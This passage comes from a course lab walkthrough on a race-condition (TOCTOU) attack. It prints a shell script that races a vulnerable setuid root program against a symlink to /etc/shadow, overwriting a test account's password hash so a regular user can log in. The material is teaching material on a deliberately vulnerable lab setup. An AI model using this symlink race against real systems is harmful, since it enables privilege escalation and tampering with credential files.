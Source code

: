 ```shell
cd User
./exploit.sh
```

![](https://natalieagus.github.io/50005/assets/images/lab2/17.png)

The program will run for **awhile** (20-30 secs) and eventually **stop** with such message:

![](https://natalieagus.github.io/50005/assets/images/lab2/18.png)

If you do a `cat /etc/shadow` right now, notice how `test-user-0` account hashed password section has been changed to match that `replacement_text` in `vulnerable_root_prog`:

![](https://natalieagus.github.io/50005/assets/images/lab2/19.png)

## Login to target user account

### Task 11

`TASK :` Login to user account `test-user-0` with password `00000` Now you can login to `test-user-0` account with **password**: `00000` instead of your originally set password:

![](https://natalieagus.github.io/50005/assets/images/lab2/20.png)

We have **successfully** changed a supposedly **protected** `/etc/shadow` file while logged in as a **regular user** (ubuntu in the example above).

## What Happened?

Open `exploit.sh` file inside `/User/` directory:

```shell
#!/bin/sh
# exploit.sh

# note the backtick ` means assigning a command to a variable
OLDFILE=`ls -l /etc/shadow` 
NEWFILE=`ls -l /etc/shadow`

# continue until THE ROOT_FILE.txt is changed
while [ "$OLDFILE" = "$NEWFILE" ]
do
    rm -f userfile.txt
    # create userfile again
    cp userfile_original.txt userfile.txt
    
    # the following is done simultanously
    # if a command is terminated by the control operator &, the shell executes the command in the background in a subshell.
    # the shell does not wait for the command to finish, and the return status is 0.
    # on the other hand, commands separated by a ; are executed sequentially; the shell waits for each command to terminate in turn.
    # the return status is the exit status of the last command executed.
    ../Root/vulnerable_root_prog userfile.txt test-user-0 & ./symlink userfile.txt /etc/shadow & NEWFILE=`ls -l /etc/shadow`
    
done

echo "SUCCESS! The root file has been changed"
```
